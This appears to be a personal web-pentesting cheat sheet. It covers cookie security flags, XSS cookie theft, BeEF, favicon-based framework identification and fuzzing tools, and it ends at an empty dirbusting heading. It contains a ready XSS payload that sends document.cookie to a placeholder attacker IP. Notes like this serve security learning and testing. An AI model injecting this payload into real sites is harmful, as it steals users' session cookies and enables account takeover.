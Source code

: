 ## Cookies manipulation

### Important security parameters

* Secure: only send the cookie over HTTPS. This protects the cookie from being sent in cleartext and captured over the network.

* HttpOnly: deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload can steal the cookie.

### Cookie Stealer Sample script

1. Find XSS vulnerability
2. Craft and inject payload
```
<script>new Image().src="http://IP/some.jpg?output="+document.cookie;</script>
```

### Use Kali's BeEF

BeeF can be used to get system info, users, rev shell etc.

## Insecure Deserialization

tbd properly

## Framework identification

* Wappalyzer
* Favicon
```bash
# grab the favicon like this 

curl https://ip.site.com/sites/favicon/images/favicon.ico | md5sum

#Then find the framework

https://github.com/nmap/nmap/blob/master/nselib/data/favicon-db

```
* Inspect Headers
`user@machine$ curl http://MACHINE_IP -v`

## Fuzzing

* https://github.com/ffuf/ffuf
* gobuster
* dibr

## My approach to Dirbusting
